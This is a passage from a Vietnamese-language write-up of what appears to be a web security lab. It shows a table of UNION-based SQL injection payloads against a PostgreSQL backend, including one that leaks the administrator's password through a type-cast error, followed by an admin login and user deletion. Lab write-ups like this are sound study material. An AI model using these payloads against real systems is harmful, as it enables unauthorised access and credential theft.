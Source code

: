 9. Có vẻ sẽ là một kiểu blind sqli.

| Payload   | Kết quả    | Giải thích       |
| ------ | ----- | ------- |
| 1' UNION SELECT NULL-- | org.postgresql.util.PSQLException: ERROR: each UNION query must have the same number of columns | Không map số cột của product |
| 1' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- | Executed | Bảng product có 8 cột giá trị |
| 1' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users where username='administrator'-- | java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;o109kdeqerh6kc8eacmr&quot;</p>| lấy được password của administrator |

10. Login vào admin và xóa user.
